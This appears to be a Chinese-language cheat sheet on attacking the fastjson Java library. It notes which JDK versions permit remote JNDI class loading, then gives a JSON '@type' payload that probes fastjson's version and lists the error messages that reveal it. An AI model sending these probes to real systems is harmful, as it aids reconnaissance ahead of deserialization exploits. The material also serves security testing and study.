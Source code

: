 # JDK与fastjson

分为三个阶段

1. JDK < 8u121
    
    默认允许JNDI从远程加载代码
    
2. JDK 8u121 -> 8u191
    
    先后把RMI和LDAP远程加载扳了（`trustURLCodebase`设为`false`）
    
3. 高版本JDK
    
    不能远程加载了，只能用本地的调用链
    
4. 8u251后
    
    基本用不了了（利用需要依赖第三方库）
    

# payload大总结

## 版本探测

### 错误-回显类

1. 利用`AutoCloseable`进行探测
    
    payload：
    
    ```java
    {
        "@type": "java.lang.AutoCloseable"
    }
    ```
    
    效果：
    
    - <= 1.2.62 (大致)
        
        ```java
        com.alibaba.fastjson.JSONException: create instance error, class java.lang.AutoCloseable
        ```
        
    - 1.2.63 - 1.2.68 (大致)
        
        ```java
        com.alibaba.fastjson.JSONException: autoType is not support. java.lang.AutoCloseable
        ```
        
    - 1.2.69 - 1.2.80 (大致)
        
        ```java
        com.alibaba.fastjson.JSONException: autoType is not support. java.lang.AutoCloseable, see https://github.com/alibaba/fastjson/wiki/FAQ_tw_autoType_exception
        ```
        